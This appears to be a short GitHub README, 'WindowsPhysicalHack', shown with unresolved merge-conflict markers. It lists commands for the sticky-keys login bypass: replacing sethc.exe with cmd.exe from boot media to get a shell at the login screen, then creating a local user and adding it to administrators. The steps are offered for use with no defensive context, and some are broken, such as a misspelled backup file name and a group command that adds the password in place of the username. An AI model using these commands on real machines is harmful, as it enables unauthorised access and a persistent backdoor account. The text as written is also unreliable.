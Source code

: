 <<<<<<< HEAD
#WindowsPhysicalHack#

##Create windows bootable disk##
##Open cmd from the bootable disk##
##Cd to C drive##
```c:\windows\system32```
```copy sethc.exe setchc_old.exe```
```copy cmd.exe sethc.exe```
##Press shift key 5 times until cmd pops up##
=======
# WindowsPhysicalHack

## Create windows bootable disk
## Open cmd from the bootable disk
## Cd to C drive
```c:\windows\system32```
```copy sethc.exe setchc_old.exe```
```copy cmd.exe sethc.exe```
## Press shift key 5 times until cmd pops up
>>>>>>> 3c5fe53e634694673e8f1a0f255234636187b49e
```net user knight brucewayne /add```
```net localgroup administrators brucewayne /add```
